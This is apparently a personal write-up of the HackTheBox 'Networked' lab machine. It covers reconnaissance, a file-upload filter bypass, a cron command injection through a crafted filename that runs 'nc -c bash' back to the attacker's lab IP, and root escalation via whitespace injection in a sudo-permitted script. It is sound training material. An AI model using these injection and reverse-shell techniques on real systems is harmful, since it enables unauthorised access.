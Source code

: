 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Networked
- Description: Networked is an Easy difficulty Linux box vulnerable to file upload bypass, leading to code execution. Due to improper sanitization, a crontab running as the user can be exploited to achieve command execution. The user has privileges to execute a network configuration script, which can be leveraged to execute commands as root.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
```

2 ports, should be easy enough. I access the page and get hit with this:

![](assets/images/2024-01-24-HTB-Networked-writeup-image-1.png)

So instantly I start a dirsearch:
```bash
HTB dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http://10.10.10.146/

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kali/.dirsearch/reports/10.10.10.146/-_24-01-24_08-18-00.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-24_08-18-00.log

Target: http://10.10.10.146/

[08:18:00] Starting: 
[08:18:01] 403 -  210B  - /cgi-bin/
[08:18:03] 200 -   73KB - /icons/
[08:18:04] 301 -  236B  - /uploads  ->  http://10.10.10.146/uploads/
[08:18:04] 200 -    2B  - /uploads/
[08:18:04] 200 -    1KB - /photos.php
[08:18:06] 200 -  169B  - /upload.php
[08:18:06] 200 -  229B  - /index.php
[08:18:09] 200 -    0B  - /lib.php
[08:18:16] 301 -  235B  - /backup  ->  http://10.10.10.146/backup/
[08:18:16] 200 -  885B  - /backup/
```

This shows me a lot, but the one I'm most interested in right now is backup:

![](assets/images/2024-01-24-HTB-Networked-writeup-image-2.png)

this shows a backup.tar file that I can download, I untar it and it seems like its the same files present in the webpage, photos.php, upload.php lib.php.

### Source code inspection

So photos and upload import in lib.php, so let's start with lib!

#### lib.php:

getnameCheck:
![](assets/images/2024-01-24-HTB-Networked-writeup-image-3.png)
This function takes the name of the file, and replaces the `.` with a `_` 

getnameUpload:
![](assets/images/2024-01-24-HTB-Networked-writeup-image-4.png)
This function takes the name of the file and does pretty much the exact same thing.

check_ip:
![](assets/images/2024-01-24-HTB-Networked-writeup-image-5.png)
this function takes in $prefix and a filename, and it checks if that file name has that prefix. 

file_mime_type:
![](assets/images/2024-01-24-HTB-Networked-writeup-image-6.png)

This function gets the file mime type.


check_file_type:
![](assets/images/2024-01-24-HTB-Networked-writeup-image-7.png)
this checks the mime type, needs to be an image

finally the displayform function:
![](assets/images/2024-01-24-HTB-Networked-writeup-image-8.png)
This function displays the info on the screen

#### photos.php

This file mainly just checks the file name using the check_ip above:
![](assets/images/2024-01-24-HTB-Networked-writeup-image-9.png)
and if its valid it'll display it.

#### upload.php

this file just allows us to upload a file with certain conditions:

![](assets/images/2024-01-24-HTB-Networked-writeup-image-10.png)

to start the file type needs to valid, we know that needs to have a mimetype of an image, next it needs to be larger than 60000? bytes, I'll have to double check that. 
The next thing it needs is to make sure the extension is  jpg, png, gif, or jpeg.

### Exploitation

Now that I have a basic understanding of the code, I'll start exploiting it:

To begin, I'll go ahead and send in a regular png:

![](assets/images/2024-01-24-HTB-Networked-writeup-image-11.png)

this was uploaded and we can see it on the photos.php file:

![](assets/images/2024-01-24-HTB-Networked-writeup-image-12.png)

Next I will upload the same file but with a reverse shell payload at the end, and I add a twist to the file name i use a `.php...png` extension, this should bypass the filter and make it think its a png, and it should execute the php code:
![](assets/images/2024-01-24-HTB-Networked-writeup-image-13.png)

From there I refresh the photos.php page, and check my netcat listener:

![](assets/images/2024-01-24-HTB-Networked-writeup-image-14.png)
## Privilege Escalation

I got a shell as apache, so I have to privilege escalate, so I got to guly's home directory where I find the following files:

![](assets/images/2024-01-24-HTB-Networked-writeup-image-15.png)

This says a lot, every 3 minutes a php script is ran on check_attack.php by guly. I don't have write permissions on either of these files!

But I can create files on `/var/www/html/uploads` where the value is being pulled from!. This helps so when the check is run, it'll identify my filename is a vulnerability and try to remove it, the only issue is that it is not sanitized so I can write whatever like:
```bash
touch '; nc -c bash 10.10.14.14 4444 &'
```

this will write a file that when called with rm, rm will ignore and instead perform a command injection attack!

I write the file and wait a few minutes.

Now that I am guly:
```bash
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$ ls -la /usr/local/sbin/changename.sh
-rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
[guly@networked ~]$
```

I can see that I can run the script as root! This script also takes in anything I enter into read. this means that I can enter arguments seperated by whitespace, so I should be able to enter any command as a second argument. 
```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh 
interface NAME:
a bash
interface PROXY_METHOD:
a
interface BROWSER_ONLY:
a
interface BOOTPROTO:
a
[root@networked network-scripts]# whoami
root
[root@networked network-scripts]#
```

best,
gerbsec